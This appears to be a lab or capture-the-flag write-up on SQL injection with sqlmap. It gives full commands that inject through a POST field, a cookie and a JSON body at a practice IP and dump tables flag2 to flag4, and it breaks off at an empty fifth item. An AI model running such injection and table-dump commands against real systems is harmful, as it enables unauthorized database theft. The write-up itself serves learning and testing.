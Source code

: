 1.  What's the contents of table flag2? (Case #2)

- vulnerable in Post data `id`

```sh
❯ sqlmap 'http://167.99.89.94:30884/case2.php'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Accept-Language: en-US,en;q=0.9'   -H 'Cache-Control: max-age=0'   -H 'Connection: keep-alive'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'Origin: http://167.99.89.94:30884'   -H 'Referer: http://167.99.89.94:30884/case2.php'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36'   --data-raw 'id=1*'   --compressed --tables
```
- found flag2 and user table

```sh
❯ sqlmap ... -T flag2 --dump
```

---

2. What's the contents of table flag3? (Case #3)

- vulnerable in cookie value `id`

```sh
❯ sqlmap 'http://167.99.89.94:30884/case3.php'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Accept-Language: en-US,en;q=0.9'   -H 'Connection: keep-alive'   -H 'Cookie: id=1*'   -H 'Referer: http://167.99.89.94:30884/case3.php'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36'   --compressed --tables
```
- found flag3 and user table

```sh
❯ sqlmap ...  -T flag3 --dump
```
---

3. What's the contents of table flag4? (Case #4)

- vulnerable in JSON data {"id": 1}
- write case4.txt file as below
```
POST /case4.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Length: 8
Content-Type: application/json
Host: 167.99.89.94:32587
Origin: http://167.99.89.94:32587
Referer: http://167.99.89.94:32587/case4.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36

{"id":1*}
```

```sh
sqlmap -r case4.txt --tables
sqlmap -r case4.txt -T flag4 --dump
```

---

4. What's the contents of table flag5? (Case #5)

```

```

5. 